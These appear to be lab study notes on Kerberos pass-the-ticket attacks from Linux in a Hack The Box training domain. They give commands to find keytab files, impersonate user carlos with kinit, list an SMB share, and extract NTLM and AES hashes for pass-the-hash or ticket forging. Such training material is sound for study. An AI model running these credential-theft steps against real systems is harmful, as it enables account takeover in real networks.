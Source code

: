 #### Finding Keytab Files

```shell
find / -name *keytab* -ls 2>/dev/null
```

> **Note:** To use a keytab file, we must have read and write (rw) privileges on the file.

```shell
crontab -l
```
#### Reviewing Environment Variables for ccache Files.
```shell
env | grep -i krb5
```

#### Impersonating a User with a keytab

```shell
klist
kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab

```

#### Connecting to SMB Share as Carlos

```shell-session
smbclient //dc01/carlos -k -c ls
```

>**Note:** To keep the ticket from the current session, before importing the keytab, save a copy of the ccache file present in the environment variable `KRB5CCNAME`

### Keytab Extract

To connec tto carlos we need his apssword so we need to decode and extract the info from .keytab file

The script will extract information such as the realm, Service Principal, Encryption Type, and Hashes. 

https://github.com/sosdave/KeyTabExtract

```shell
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 
```

>With the NTLM hash, we can perform a Pass the Hash attack. With the AES256 or AES128 hash, we can forge our tickets using Rubeus or attempt to crack the hashes to obtain the plaintext password.

## Abusing Keytab ccache


## Using Linux Attack Tools with Kerberos

Most Linux attack tools that interact with Windows and Active Directory support Kerberos authentication. If we use them from a domain-joined machine, we need to ensure our `KRB5CCNAME` environment variable is set to the ccache file we want to use. In case we are attacking from a machine that is not a member of the domain, for example, our attack host, we need to make sure our machine can contact the KDC or Domain Controller, and that domain name resolution is working.
